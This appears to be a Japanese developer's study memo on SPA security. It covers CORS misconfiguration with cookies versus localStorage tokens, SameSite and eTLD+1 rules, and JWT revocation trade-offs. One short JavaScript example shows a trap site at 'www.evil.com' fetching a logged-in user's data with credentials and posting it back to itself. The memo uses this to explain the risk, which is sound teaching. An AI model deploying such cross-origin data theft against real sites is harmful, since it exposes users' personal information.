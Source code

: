 ```yaml
---
title: 徳丸さんのSPAのセキュリティー入門メモ
time: 2021-11-05 00:00
tag: ['nextjs']
---
```


# はじめに

## CORS観点から見た、Cookie vs Token(localStorage)

- Cookieの場合、CORS不備があるとフィッシングサイトでもCookieを送信してしまい、悪用される可能性がある。(※1)
- Token(localStorage)の場合、CORS不備があってもフィッシングサイトから、localStorageは参照できないので悪用はしにくい。

### ※1 ここでのCORS不備

- API側は、Cookieを受け取るような設定になっている前提(Access-Contrl-Allow-Credentials: true)になっている。
- リファラのドメインをそのまま、Allow-Originに追加している。←これがFWでたまにやってるNGなやつ。

罠サイト`www.evil.com`から`www.api.valid.com`にAjaxでRequestを飛ばすと、Cookieが送信される。


#### さらに補足

罠サイトからCookieが飛ぶと何がまずいんだっけ。  
例えば、ユーザーが正規サイト`www.valid.com`にアクセスして`www.api.valid.com/login`を叩く。  
そうすると、`www.api.valid.com`名義の認証状態のCookieが発行される。  
これ以降はユーザー情報なんかを取得したいときには、`www.api.valid.com/me`的なAPIのエンドポイントにCookieを付与してアクセスすることでユーザー自身の情報を取得できるような仕組みになってるとする。  

罠サイト`www.evil.com`は`evil.js`内で以下のような処理を行うことが可能。

```js
const aggregate = async () => {
	// このリクエストで認証状態のCookieを送信することが可能
	const response = await fetch('https://www.api.valid/user', {mode: 'cors', credentails: 'include'})
	// レスポンスデータからユーザー情報を取得し、別のサイトに送信
	const user = await response.json()
	fetch('https://www.evil.com/users', {method: 'POST', body: JSON.stringfy(user)})
}
```

#### ↑のCookieのSamesite属性による保護補足

`www.evil.com`→ `www.api.valid.com`のAPIリクエストに応じてCookieが付与されるのはあくまでもCookieのSamesite属性が`None`じゃなきゃ飛ばない。  
SameSite属性を指定していない場合、デフォルトで`Lax`なので、実はこのケースもそこまでないんじゃないかなと思った。  

本題とずれるんだけど、ややこしいのはCookieのSameSiteの定義。  
CORSになる条件と、Cookie的にCORSになる条件が異なっている。

例えば、`foo.bar.com`と`baz.bar.com`はCORS。ただ、Cookie的にはCORSではなくSamteSite扱い。  
`eTLD + 1`が同じであればCookieはSameSiteになる、と覚えればいい。

https://blog.jxck.io/entries/2021-04-21/public-suffix-list.html

よくあるフロントとバックエンドで、サブドメインでドメインをわけているケースであれば、Cookie的にはSamteSite扱いになるので、SameSite属性がなんであればCookieは付与される。  

## JWTの認証/認可

### 考えなきゃいけないところ

サーバー側でのToken破棄方法。
ケースとしては、ファッシングサイトで、ID/Passwordを入力してしまったときの対応があるのかないのか。
ユーザーは即座にパスワードを変更したとしても、既に発行されたtokenを無効にするにはどうしたらいいのだろう。  

一般的にはトークンの有効期限を短くすることが考えられる。
トークンの有効期限が短くって、すぐにログアウト状態になると意味がないので、リフレッシュトークンを用いて都度トークンを再発行する仕組みを用意しておく。  

ただ、トークンの有効期限が短いといっても、30分〜1時間程度はあるのでこの間は漏れたtokenが利用できてしまう状態になる。  
発行したtokenを管理して、失効させる仕組みを取ると、結局サーバ側で状態を持つのと変わらないって話になる。

リフレッシュトークンだけ失効させる仕組みをとるっていう考え方もある？ただ、これも状態をもつよね。
※リフレッシュトークンは有効期限が長いので。

結論は特になくって、メリット/デメリットをわかった上で導入しようぜってこと。  
軸は、パスワード変更時の即時ログアウトが必要かどうか。

ちなみに、Laravel Sancutmは、tokenをデータベースに保持させるやり方がある。  
Cookieベースのセッションと何が違うんだっけとも思った。  
が、サービス単体で考えるとCORS不備の観点で若干メリットがあるのと、OAuth/IDPではtokenだからかな。






